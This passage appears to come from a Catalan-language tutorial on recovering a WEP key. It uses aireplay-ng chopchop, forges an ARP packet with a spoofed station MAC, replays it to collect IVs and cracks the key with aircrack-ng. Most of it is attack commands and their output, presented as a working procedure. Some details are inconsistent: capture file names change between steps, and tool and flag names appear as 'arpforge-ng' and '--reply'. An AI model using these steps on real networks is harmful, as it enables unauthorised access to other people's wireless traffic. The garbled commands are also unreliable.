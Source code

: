 # aireplay-ng --chopchop -h ca:fe:ca:fe:ca:fe ath1
Read 286 packets...

        Size: 345, FromDS: 1, ToDS: 0 (WEP)

             BSSID  =  00:C0:94:1F:3D:49
         Dest. MAC  =  01:00:5E:7F:FF:FA
        Source MAC  =  00:C0:49:D3:B6:4D
[...]
        --- CUT ---
Use this packet ? yes Saving chosen packet in replay\_src-0427-031148.cap Offset 344 ( 0% done) | xor = 65 | pt = 65 | 423 frames written in 3276ms Offset 343 ( 0% done) | xor = AF | pt = 32 | 412 frames written in 3967ms Sent 343 packets, current guess: 55...

Mirem quina és l'adreça IP:

```
# tcpdump -s 0 -n -e -r replay\_src-0427-031148.cap reading from file replay\_dec-0627-022301.cap, link-type [...] IP 192.168.1.2 \> 192.168.1.255: icmp 64: echo request seq 1
```

Forcem un ARP request, podem posar el que vulguem com a IP d'origen (en l'exemple 192.168.1.100), però es important que la IP de destí (en l'exemple 192.168.1.2) contesti els ARP requests. La MAC d'origen ha de pertànyer a una estació associada.

```
# arpforge-ng replay\_dec-0427-031148.xor 1 00:C0:49:D3:B6:4D \ 01:00:5E:7F:FF:FA 192.168.1.100 192.168.1.2 arp.cap
```

A continuació reinjectem el arp-request que hem construït, utilitzant l'atac comentat anteriorment:

```
# aireplay-ng --reply -r arp.cap ath1
```

#### Obtenint resultats

Mentre fem els diferents atacs en background, obrim un altre terminal per executar l'aircrack-ng, que llegirà els IVs del fitxer que hem indicat anteriorment al llançar l'airodump-ng. Aquest és el procés és el que finalment recuperarà la clau. Generalment llançant-lo amb aquesta sintaxis és efectiu:

```
# aircrack-ng -0 -x capturefile-03.ivs [00:01:43] Tested 1991733 keys (got 217865 IVs) [...]
```

Quan tinguem [suficients IVs](http://www.aircrack-ng.org/index.php?title=FAQ#How_do_I_know_my_WEP_key_is_correct_.3F) apareixerà el missatge `KEY FOUND!` amb la clau WEP. Si veieu que triga molt o tot i que teniu molts IVs és incapaç de trobar la clau podeu jugar amb [les diferents opcions](http://www.aircrack-ng.org/index.php?title=Aircrack-ng), per exemple desactivant els atacs d'en korek un a un.

Don't be (_too_) evil! ;)


